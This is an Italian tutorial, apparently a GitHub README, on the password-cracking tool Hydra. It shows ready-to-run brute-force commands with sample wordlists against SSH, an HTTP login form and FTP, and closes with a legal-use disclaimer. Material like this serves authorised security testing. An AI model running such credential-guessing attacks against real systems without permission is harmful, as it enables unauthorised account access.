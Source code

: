 # Cos'é Hydra?
Hydra è un potente strumento open source utilizzato per testare la sicurezza di sistemi di autenticazione attraverso attacchi di forza bruta. È in grado di attaccare una vasta gamma di protocolli di rete e servizi, tra cui HTTP, FTP, SSH, Telnet, ecc.

## Come funziona?
Hydra effettua attacchi di forza bruta su diversi servizi cercando di autenticarsi con varie combinazioni di nomi utente e password. Utilizza una lista di nomi utente e password comuni per tentare di indovinare le credenziali corrette.

## Esempi pratici

**Attacco SSH**

Cerchiamo di attaccare un server SSH con indirizzo IP '192.168.1.100'.
Creiamo due file: nomi utente(username.txt) e password(passwords.txt)
Username contiene i seguenti dati:
```
admin
user
test
```
Password contiene i seguenti dati:
```
123456
password
admin
```
Eseguiamo Hydra con i seguenti comandi:

```hydra -L usernames.txt -P passwords.txt ssh://192.168.1.100```
- -L usernames.txt: Specifica il file contenente i nomi utente.
- -P passwords.txt: Specifica il file contenente le password.
- ssh://192.168.1.100: Indica il servizio (SSH) e l'indirizzo IP del server da attaccare.

**Attacco HTTP POST su Login Page**

Cerchiamo di attaccare una pagina di login web con il seguente url 'http://example.com/login'
Creiamo due file: nomi utente(username.txt) e password(passwords.txt)
Username contiene i seguenti dati:
```
admin
user
test
```
Password contiene i seguenti dati:
```
123456
password
admin
```
Eseguiamo Hydra con i seguenti comandi:

```hydra -L usernames.txt -P passwords.txt http-post-form \ "http://example.com/login:username=^USER^&password=^PASS^:F=incorrect"```
- http-post-form: Specifica il tipo di attacco (form HTTP POST).
- http://example.com/login: URL della pagina di login.
- username=^USER^&password=^PASS^: Modello per i parametri POST (Hydra sostituirà ^USER^ e ^PASS^ con i valori dei file).
- :F=incorrect: Stringa di fallimento (il testo che appare nella pagina quando la login fallisce).

**Attacco FTP con Singola Password**

Cerchiamo di attaccare un server FTP con IP '192.168.1.101' con una password comune (password123) per un elenco di nomi utente.
Creiamo un file di testo contenente i nomi utente(username.txt):
```
admin
user
test
```
Eseguiamo Hydra con i seguenti comandi:

```hydra -L usernames.txt -p password123 ftp://192.168.1.101```
- -L usernames.txt: Specifica il file contenente i nomi utente.
- -p password123: Specifica una singola password da provare.
- ftp://192.168.1.101: Indica il servizio (FTP) e l'indirizzo IP del server da attaccare.

# Disclaimer

L'uso di Hydra deve essere limitato a scopi legittimi e legali. Utilizzare Hydra per accedere a sistemi senza autorizzazione è illegale. È importante utilizzare questo strumento solo per testare la sicurezza dei propri sistemi o con il permesso esplicito del proprietario del sistema.

